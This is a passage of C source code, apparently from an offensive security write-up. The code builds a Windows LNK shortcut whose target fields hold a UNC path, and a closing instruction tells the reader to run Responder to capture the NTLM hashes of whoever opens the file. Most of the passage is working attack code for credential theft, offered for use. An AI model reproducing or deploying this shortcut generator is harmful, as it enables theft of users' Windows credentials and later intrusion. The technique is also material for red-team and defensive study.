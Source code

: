 ```c

    if (!WriteFile(hFile, &envSignature, sizeof(DWORD), &bytesWritten, NULL)) {
        printf("Failed to write env block signature: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }
    printf("  Wrote block signature: %lu bytes written\n", bytesWritten);

    char ansiBuffer[260] = { 0 };
    strncpy(ansiBuffer, envUNC, 259);

    if (!WriteFile(hFile, ansiBuffer, 260, &bytesWritten, NULL)) {
        printf("Failed to write TargetAnsi: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }
    printf("  Write TargetAnsi: %lu bytes written (fixed 260 bytes)\n", bytesWritten);

    WCHAR unicodeBuffer[260] = { 0 };
    if (MultiByteToWideChar(CP_ACP, 0, envUNC, -1, unicodeBuffer, 260) == 0) {
        printf("Failed to convert to Unicode: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    if (!WriteFile(hFile, unicodeBuffer, 520, &bytesWritten, NULL)) {
        printf("Failed to write TargetUnicode: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }
    printf("  Write TargetUnicode: %lu bytes written (fixed 520 bytes)\n", bytesWritten);

    CloseHandle(hFile);

    printf("LNK file created successfully: %s\n", lnkFilePath);
    printf("Command line buffer size: %d bytes\n", (int)strlen(cmdLineBuffer));

    return 0;
}
```

Once you compile the code, run the executable to generate LNK file and make sure to run `Responder` tool to capture NTLM Hash. 